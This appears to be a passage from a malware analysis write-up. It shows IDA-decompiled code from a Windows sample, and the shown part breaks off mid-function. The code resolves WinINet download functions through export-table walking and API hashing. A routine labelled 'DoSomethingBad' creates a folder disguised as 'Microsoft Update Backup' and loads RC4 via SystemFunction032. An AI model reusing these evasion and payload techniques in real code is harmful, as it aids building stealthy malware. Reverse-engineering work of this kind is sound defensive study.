 ```cpp=
            qword_140007A80 = api_name_2;
        }
      }
      else if ( (*dll_name == 'w' || *dll_name == 'W')
             && (dll_name[1] == 'i' || dll_name[1] == 'I')
             && (dll_name[2] == 'n' || dll_name[2] == 'N')
             && (dll_name[3] == 'i' || dll_name[3] == 'I')
             && (dll_name[4] == 'n' || dll_name[4] == 'N')
             && (dll_name[5] == 'e' || dll_name[5] == 'E')
             && (dll_name[6] == 't' || dll_name[6] == 'T') )// import wineinet library
      {
        exportTable_3 = (dll_base + getNtHdrs(dll_base)->OptionalHeader.DataDirectory[0].VirtualAddress);
        num_of_names_3 = exportTable_3->NumberOfNames;
        name_array_3 = dll_base + exportTable_3->AddressOfNames;
        name_ordinal_3 = dll_base + exportTable_3->AddressOfNameOrdinals;
        func_array_3 = dll_base + exportTable_3->AddressOfFunctions;
        for ( m = 0i64; m < num_of_names_3; ++m )
        {
          api_name_3 = (dll_base + *&func_array_3[4 * *&name_ordinal_3[2 * m]]);
          case_3 = search_case(dll_base + *&name_array_3[4 * m]);
          switch ( case_3 )
          {
            case 0x8261F0DF5FDC0887i64:
              InternetOpenA = api_name_3;
              break;
            case 0xE726A35A86C7641Ci64:
              InternetOpenUrlA = api_name_3;
              break;
            case 0x6F4E79C87F04F3E6i64:
              InternetReadFile = api_name_3;
              break;
            case 0x2DF8494D5C13046i64:
              InternetCloseHandle = api_name_3;
              break;
          }
        }
      }
    }
  }
  return 0i64;
}
```
:::
:::spoiler IDA DoSomethingBad
```cpp=
void __stdcall DoSomethingBad()
{
  HMODULE LibraryA_0; // rax
  HANDLE FirstFileA; // [rsp+20h] [rbp-188h]
  const void *space; // [rsp+30h] [rbp-178h] BYREF
  DWORD fileSize; // [rsp+38h] [rbp-170h] BYREF
  struct _WIN32_FIND_DATAA lpFindFileData; // [rsp+40h] [rbp-168h] BYREF
  char folderName[24]; // [rsp+180h] [rbp-28h] BYREF

  strcpy(folderName, "Microsoft Update Backup");
  if ( (CreateDirectoryA(folderName, 0i64) || GetLastError() == ERROR_ALREADY_EXISTS) && !(unsigned int)InternetConnect() )
  {
    LibraryA_0 = LoadLibraryA_0(aAdvapi32);
    SystemFunction032 = (__int64 (__fastcall *)(_QWORD, _QWORD))GetProcAddress(LibraryA_0, ProcName);
    FirstFileA = FindFirstFileA(FileName, &lpFindFileData);
```